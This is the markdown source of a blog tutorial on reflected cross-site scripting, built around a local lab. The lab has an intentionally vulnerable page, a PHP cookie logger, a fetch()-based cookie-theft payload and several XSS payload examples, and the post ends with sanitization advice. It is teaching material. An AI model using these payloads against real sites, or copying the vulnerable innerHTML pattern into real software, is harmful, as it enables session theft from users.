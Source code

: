 ```yaml
---
title: "Reflected XSS: Explained with Real Examples"
author: saramazal
layout: post
date: 2025-04-17
categories: [XSS]
tags: [xss, web, pentesting, tryhackme, client-side, appsec]
img_path: /images/covers
image:
  path: /images/covers/pink-girl5.jpg
---
```


## 👾 Reflected XSS – Real-World Lab

Let’s dive into Reflected Cross-Site Scripting (XSS), a client-side vulnerability used by attackers to execute malicious code in a victim’s browser. This lab simulates real scenarios, built for hands-on learning.

---

## 🚨 What is Reflected XSS?

Reflected XSS happens when data from a request (URL, form, etc.) is immediately echoed in the response without validation or sanitization.

🛠️ **Example:**
```html
http://victim-site.com/page?q=<script>alert(1)</script>
```

If the app outputs `q` without filtering, the script runs in the browser.

---

## 🎯 Lab Goals

- See how user input reflects in HTML
- Inject XSS payloads manually
- Steal cookies with `fetch()` to a PHP logger
- Confirm captured cookies in terminal

---

## 🧱 Lab Structure

```
xss-lab/
├── xss-lab.html        # The vulnerable page
├── steal.php           # Attacker's logger
├── requests.log        # Log of stolen cookies
├── cookie.txt          # Simulated browser cookie file
```

---

## 🧠 Lab Code

### xss-lab.html

```html
<!DOCTYPE html>
<html>
<head><title>XSS Lab</title></head>
<body>
  <h2>Reflected XSS Demo</h2>
  <div id="output"></div>

  <script>
    const q = new URLSearchParams(location.search).get('q');
    document.getElementById('output').innerHTML = q;
  </script>
</body>
</html>
```

### steal.php

```php
<?php
file_put_contents("requests.log", print_r($_GET, true) . "\n", FILE_APPEND);
?>
```

---

## 🚀 Run the Lab Locally

1. **Start a local PHP server**:
```bash
php -S localhost:8080
```

2. **Set a fake cookie in your browser (DevTools Console):**
```js
document.cookie = "session_id=hello_mazal";
```

3. **Trigger the attack:**
```
http://localhost:8080/xss-lab.html?q=<script>fetch('http://localhost:8080/steal.php?c='+document.cookie)</script>
```

4. **Check logs:**
```bash
cat requests.log
```

---

## 💡 Test Inputs to Play With

Add these for form-based XSS:

```html
<input type="text" placeholder="Search...">
<textarea placeholder="Write a comment..."></textarea>
<input type="file" accept="image/*">
```

---

## ⚔️ Payload Examples

- Classic alert box:
```html
<script>alert("XSS")</script>
```

- Cookie theft:
```html
<script>fetch('http://localhost:8080/steal.php?c=' + document.cookie)</script>
```

- Image-based execution:
```html
<img src=x onerror="alert('XSS')">
```

- On-hover trigger:
```html
<b onmouseover="alert('XSS')">Hover me</b>
```

- Script via eval (dangerous if used):
```html
"><script>eval('alert(1)')</script>
```

---

## 🧪 Testing Tips

✅ Test in the browser by entering payloads in the URL:  
`http://localhost:8080/xss-lab.html?q=<script>alert(1)</script>`

✅ Or manually trigger fetch from DevTools:
```js
fetch("http://localhost:8080/steal.php?c=" + document.cookie)
```

---

## 🔒 Validating & Sanitizing Inputs

- **Validate** input against expected patterns (e.g., regex for email)
- **Sanitize** output by escaping characters like `<`, `>`, `"`, `'`

**Example (PHP):**
```php
echo htmlspecialchars($_GET['q'], ENT_QUOTES, 'UTF-8');
```

---

## 🔚 Final Thoughts

Reflected XSS is fast and dangerous. In real-world bug bounties, it’s still common due to poor input handling.

✅ Always sanitize before rendering  
✅ Test every input and reflected output  
✅ Use browser DevTools and manual payloads for testing

---

Stay curious, break safely, and document everything.  
**~ Maz4l 🤺**

---
*More hacks, more notes, more wins.*